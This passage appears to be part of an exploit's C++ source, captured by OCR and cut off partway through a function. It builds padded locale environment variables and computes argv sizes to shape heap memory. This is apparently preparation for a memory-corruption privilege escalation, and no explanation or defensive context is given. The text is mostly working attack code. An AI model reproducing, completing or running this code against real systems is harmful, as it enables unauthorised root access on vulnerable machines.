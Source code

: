 ```C++
char * envName[13]={"LC_CTYPE","LC_NUMERIC","LC_TIME","LC_COLLATE","LC_MONETARY","LC_MESSAGES","LC_ALL","LC_PAPER","LC_NAME","LC_ADDRESS","LC_TELE
PHONE","LC_MEASUREMENT","LC_IDENTIFICATION"};

int now=13;
int envnow=0;
int argvnow=0;
char * envp[0x300];
char * argv[0x300];
char * addChunk(int size)
{
    now --;
    char * result;
    if(now ==6)
    {
        now --;
    }
    if(now>=0)
    {
        result=malloc(size+0x20);
        strcpy(result,envName[now]);
        strcat(result,"=C.UTF-8@");
        for(int i=9;i<=size-0x17;i++)
            strcat(result,"A");
        envp[envnow++]=result;
    }
    return result;
}

void final()
{
    now --;
    char * result;
    if(now ==6)
    {
        now --;
    }
    if(now>=0)
    {
        result=malloc(0x100);
        strcpy(result,envName[now]);
        strcat(result,"=xxxxxxxxxxxxxxxxxxxxx");
        envp[envnow++]=result;
    }
}

int setargv(int size,int offset)
{
    size-=0x10;
    signed int x,y;
    signed int a=-3;
    signed int b=2*size-3;
    signed int c=2*size-2-offset*2;
    signed int tmp=b*b-4*a*c;
    if(tmp<0)
        return -1;
    tmp=(signed int)sqrt((double)tmp*1.0);
    signed int A=(0-b+tmp)/(2*a);
    signed int B=(0-b-tmp)/(2*a);
    if(A<0 && B<0)
        return -1;
    if((A>0 && B<0) || (A<0 && B>0))
        x=(A>0) ? A: B;
```